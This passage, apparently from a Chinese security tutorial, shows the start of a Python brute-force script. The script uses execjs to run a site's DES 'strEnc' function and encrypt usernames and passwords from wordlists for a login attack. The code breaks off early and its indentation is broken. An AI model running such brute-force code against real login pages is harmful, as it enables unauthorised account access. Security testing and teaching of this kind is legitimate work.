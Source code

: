 [![](assets/1698897578-f7e2f4808fb666972133860aa89fa575.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200206160049-c9bb4bda-48b6-1.png)

这样就可以利用 burpsuite/python 脚本加载加密后的字典愉快的爆破啦。

py 脚本爆破（单线程）：

```plain
#coding:utf-8
#from selenium import webdriver
import execjs
import requests
import re




successCount = 0


def mzDes(s,para):
    despara = execjs.get().compile(s).call("strEnc",para,"csc","mz","2017")
    return despara

with open('des.js','r') as mzCrypto:

        s = mzCrypto.read()
        with open('users.txt','r') as users:   #des username


        user = users.readlines()
        for u in user:
            with open('top50.txt','r') as pwds:   #des password
                    uname = u.strip()
```